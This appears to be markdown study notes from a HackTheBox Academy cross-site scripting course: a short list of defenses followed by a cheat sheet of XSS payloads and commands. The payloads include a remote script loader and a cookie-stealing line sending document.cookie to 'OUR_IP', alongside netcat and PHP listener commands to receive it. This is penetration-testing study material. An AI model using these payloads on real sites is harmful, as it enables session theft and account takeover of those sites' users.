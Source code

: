 
- Web Application Firewall (WAF)

- ASP.Net XSS PROTECTION [ASP.NET](https://learn.microsoft.com/en-us/aspnet/core/security/cross-site-scripting?view=aspnetcore-7.0)

# SKILL ASSESMENT











# CHEETSHEET
## Commands

|Code|Description|
|---|---|
|**XSS Payloads**||
|`<script>alert(window.origin)</script>`|Basic XSS Payload|
|`<plaintext>`|Basic XSS Payload|
|`<script>print()</script>`|Basic XSS Payload|
|`<img src="" onerror=alert(window.origin)>`|HTML-based XSS Payload|
|`<script>document.body.style.background = "#141d2b"</script>`|Change Background Color|
|`<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>`|Change Background Image|
|`<script>document.title = 'HackTheBox Academy'</script>`|Change Website Title|
|`<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`|Overwrite website's main body|
|`<script>document.getElementById('urlform').remove();</script>`|Remove certain HTML element|
|`<script src="http://OUR_IP/script.js"></script>`|Load remote script|
|`<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`|Send Cookie details to us|
|**Commands**||
|`python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"`|Run `xsstrike` on a url parameter|
|`sudo nc -lvnp 80`|Start `netcat` listener|
|`sudo php -S 0.0.0.0:80`|Start `PHP` server|


